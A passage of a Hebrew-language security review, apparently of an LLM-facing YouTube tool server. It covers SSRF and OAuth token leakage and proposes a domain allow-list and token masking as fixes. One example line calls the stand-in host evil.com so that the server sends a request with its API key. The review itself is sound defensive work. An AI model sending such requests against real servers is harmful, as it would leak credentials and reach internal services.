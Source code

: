 **דוגמה:**
```python
# תוקף מבקש:
search_videos("https://evil.com/attack?victim=internal-api")

# השרת עושה request עם YouTube API key שלנו
```

**האם אנחנו מוגנים?**
```
✅ כן - יש validation על video IDs/URLs
```

**שיפור:**
```python
ALLOWED_DOMAINS = {
    'youtube.com',
    'www.youtube.com',
    'youtu.be',
    'm.youtube.com'
}

def validate_video_url(url: str) -> str:
    parsed = urlparse(url)
    
    # וודא שה-domain מורשה
    if parsed.hostname and parsed.hostname not in ALLOWED_DOMAINS:
        raise ValidationError(f"Domain not allowed: {parsed.hostname}")
    
    # המשך validation...
```

---

### 4. **Token Passthrough** 🟡 בינוני

**סיכון:** OAuth tokens עוברים דרך LLM responses.

**איפה זה קורה?**
```python
# ב-check_oauth_status():
return {
    "authenticated": True,
    "token": creds.token,  # ❌ לא טוב!
    ...
}
```

**תיקון:**
```python
def check_oauth_status() -> Dict[str, Any]:
    """Check OAuth2 status WITHOUT exposing tokens"""
    
    return {
        "authenticated": True,
        "token_preview": "****" + creds.token[-4:],  # רק 4 תווים אחרונים
        "has_refresh_token": bool(creds.refresh_token),
        # אל תחזיר את ה-token המלא!
    }
```

---